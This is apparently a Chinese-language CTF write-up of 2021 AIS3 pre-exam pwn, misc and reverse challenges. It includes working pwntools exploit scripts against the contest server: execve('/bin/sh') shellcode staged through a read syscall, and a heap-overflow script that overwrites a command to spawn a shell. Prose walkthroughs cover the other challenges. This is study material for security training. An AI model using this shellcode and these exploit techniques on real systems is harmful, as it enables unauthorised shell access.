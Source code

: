 # 2021 AIS3 pre-exam reverse 和 pwn 題

## pwn : noper

shellcode 題，先輸入一串最長 0x40 的  shellcode，接著隨機 nop 掉 shellcode 的某些 bytes 並執行。

因為有隨機 nop，所以直接塞 execve('/bin/sh' , 0 , 0) 一類的 shellcode 有很高的機率會直接 crash 掉，好在執行 shellcode 時，rax 是 read 的 syscall number，rdi 是 0  ( stdin )，rsi 是 shellcode 第一個 bytes 的位置，可以塞 syscall 複寫 shellcode。需要注意的是因為 rdx 太大 , 直接 syscall 不能成功，所以還要在 syscall 前塞一個盡量短一點的指令減小 rdx 的值 ( ex. shr , xor ... )

```python=
from pwn import *

#p = process('./noper')
p = remote('quiz.ais3.org' , 5002)
pause()
p.recvuntil('code:')
sc = '\x48\xC1\xEA\x29' # shr rdx , 0x29 
sc += '\x0f\x05' # syscall
p.sendline(sc)
sc = '\x90'*6 + '\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\x6a\x3b\x58\x99\x0f\x05' # execve('/bin/sh')
p.sendline(sc)    

p.interactive()
```

## pwn : Write Me


程式先把 system 的 got 寫 0，再給一次任意寫的機會，寫完後呼叫 system('/bin/sh')。

方法是直接把 got 寫回 dlruntime_resolve 前的值，讓下次程式執行 system 時再做一次 lazy binding 填回正確的位置。


## pwn : AIS3 Shell

出題者在原有的 ptmalloc 上自己寫了一套記憶體分配機制，這套分配機制存在邏輯錯誤，導致使用者可以分配比自己申請的大小還大的記憶體，造成 heap overflow 的漏洞。

初始化 MEM pool 函數。

![](https://i.imgur.com/PkAzkxo.png)

分配記憶體函數，MEM[i<<6+4] 邏輯錯誤，能夠申請到比自己申請大小更大的記憶體。

![](https://i.imgur.com/Hpxabg4.png)

```python
from pwn import *
p = remote('quiz.ais3.org' , 10103)
#p = process('./ais3shell')
pause()

def define_cmd(sz1 , cmdname , sz2 , cmd):
    p.recvuntil('$')
    p.sendline('define')
    p.recvuntil('name:')
    p.sendline(str(sz1))
    p.recvuntil('name:')
    p.sendline(cmdname)
    p.recvuntil('command:')
    p.sendline(str(sz2))
    p.recvuntil('Command:')
    p.sendline(cmd)

def run_cmd(cmdname):
    p.recvuntil('$')
    p.sendline('run ' + cmdname)

def list_cmd():
    p.recvuntil('$')
    p.sendline('list')

define_cmd(256 , 'aaa' , 768 , 'ls') 
pl = 'a'*272+'/bin/sh' # overflow 到下一個 chunk 的 cmd
define_cmd(512 , pl , 10 , 'sl')
#list_cmd()
run_cmd('aaa')

p.interactive()
```

## misc : Blind

 
程式關閉 stdin 後讓使用者執行一個 syscall，最後再執行 system("/bin/sh")。

沒辦法寫入字串 , 無法 reopen tty , 後來注意到 stderr 沒關，所以 syscall 執行 dup stderr。

## reverse : Piano

給一個執行檔 piano.exe 和用 c# 寫的動態連結檔 piano.dll，遊戲的函數全部都定義在 dll 內。

![](https://i.imgur.com/6eJsuHa.png)

動態追蹤後發現當按下鋼琴鍵時，會進入 onClickHandler 處理函數，在函數內以 FILO 的順序將鋼琴鍵對應的數值存入 notes[14]。

![](https://i.imgur.com/8n00C96.png)

每次進入 handler 時都會檢查一次 notes 的 14 個數值是否有符合特定規則，有的話就呼叫 nya 彈 flag。

由規則可知，只要解 14 個二元一次方程式就可以知道要依序彈奏哪 14 個音符。

![](https://i.imgur.com/KmwmVmX.png)

## reverse : COLORS

在 encode.js 內發現了一個 eventlistner , 追蹤下去發現只要執行 "上上下下左右左右ba" 就可以解鎖 input 的 locked ( return document )

![](https://i.imgur.com/nn4bn3L.png)

解鎖 input 的 locked 以後跳出一隻很醜的動物 , 顯示字串 `"Here is your "encoded" flag , input to encode something else!"`

return 回來的 document 上的字符是由 _0xce93 encode 的 , 所以只要 trace _0xce93 找出規則後 decode 回來即可
